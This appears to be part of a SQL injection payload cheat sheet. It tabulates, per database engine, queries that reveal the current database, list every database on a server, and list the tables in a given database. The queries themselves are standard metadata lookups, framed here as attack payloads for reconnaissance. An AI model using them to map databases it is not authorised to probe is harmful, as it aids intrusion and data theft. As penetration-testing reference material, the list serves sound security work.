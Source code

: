 ## Current DataBase In Use
| Applicability | Payload |
| - | - |
| MySQL | `SELECT DATABASE()` |
| PostgreSQL | `SELECT CURRENT_DATABASE()` |
| | `SELECT CURRENT_SCHEMA()` |
| SQL Server | `DB_NAME()` |
| | `SCHEMA_NAME()` |
| ORACLE | `SELECT name FROM V$database` |
| | `SELECT * FROM global_name` |
| | `SELECT sys_context('USERENV', 'CURRENT_SCHEMA') FROM dual;` |

## List All The DataBases In The Server
| Applicability | Payload |
| - | - |
| MySQL | `SELECT schema_name FROM INFORMATION_SCHEMA.SCHEMATA` |
| | `SELECT db FROM mysql.db` |
| PostgreSQL | `SELECT datname FROM pg_database` |
| | `SELECT DISTINCT(schemaname) FROM pg_tables` |
| SQL Server | `SELECT name FROM master.sys.databases`|
| | `SELECT name FROM master..sysdatabases` |
| Oracle | `SELECT OWNER FROM (SELECT DISTINCT(OWNER) FROM SYS.ALL_TABLES)` |

## List All The Tables In A DataBase
| Applicability | Payload |
| - | - |
| MySQL | `SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='<DBNAME>'` |
| | `SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema=DATABASE()` |
| | `SELECT database_name,table_name FROM mysql.innodb_table_stats WHERE database_name='DBNAME'` |
| PostgreSQL | `SELECT tablename FROM pg_tables WHERE schemaname = 'SCHEMA_NAME'` |
| | `SELECT tablename FROM pg_tables WHERE schemaname = CURRENT_DATABASE()` |
| | `SELECT tablename FROM pg_tables WHERE schemaname = CURRENT_SCHEMA()` |
| | `SELECT table_name FROM information_schema.tables WHERE table_schema='SCHEMA_NAME'` |
| SQL Server | `SELECT table_name FROM information_schema.tables WHERE table_catalog='DBNAME'` |
| | `SELECT name FROM DBNAME..sysobjects WHERE xtype='U'` |
| Oracle | `SELECT OWNER,TABLE_NAME FROM SYS.ALL_TABLES WHERE OWNER='DBNAME'` |
| SQLite | `SELECT tbl_name FROM sqlite_master WHERE type='table'` | 
